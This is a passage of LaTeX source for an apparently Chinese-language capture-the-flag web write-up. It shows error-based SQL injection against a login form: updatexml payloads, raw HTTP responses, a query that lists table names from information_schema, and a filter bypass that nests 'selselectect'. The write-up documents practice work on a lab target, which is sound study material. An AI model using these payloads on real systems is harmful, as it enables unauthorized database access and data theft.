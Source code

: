 搞了好久之后，看了下writeup，发现我的burp发送的包和writeup的包不一样，他的包首行的POST目的地址里就有'?login=1'，手动加上以后就正常了，如图~\ref{fig:pic3}。
\begin{figure}[H]
\centering
\includegraphics[width=0.9\textwidth]{1-web_junior/pic/3.jpg}
\caption{修改后的发送包和回复包}
\label{fig:pic3}
\end{figure}

然后继续尝试报错注入，输入如下：
\begin{lstlisting}
name=admin' or updatexml(1,concat(0x7e,(select 1)),1)#&pass=123
\end{lstlisting}
结果为:
\begin{lstlisting}
HTTP/1.1 200 OK
Date: Sun, 14 Mar 2021 11:26:10 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Vary: Accept-Encoding
Content-Length: 88
Content-Type: text/html

string(24) "XPATH syntax error: '~1'"
{"error":1,"msg":"\u8d26\u53f7\u4e0d\u5b58\u5728"}
\end{lstlisting}
可以看到注入成功，那么继续注入name，获取表名、列名：
\begin{lstlisting}
admin' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1)#
\end{lstlisting}
回显报错:
\begin{lstlisting}
string(215) "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'from information_schema.tables where table_schema=database())),1)#'' at line 1"
\end{lstlisting}
可能是左边的select被过滤，尝试将select改为嵌套的selselectect后，获取到表名。~\ref{fig:pic4}。
\begin{figure}[H]
\centering
\includegraphics[width=0.9\textwidth]{1-web_junior/pic/4.jpg}
\caption{获取表名}
\label{fig:pic4}
\end{figure}

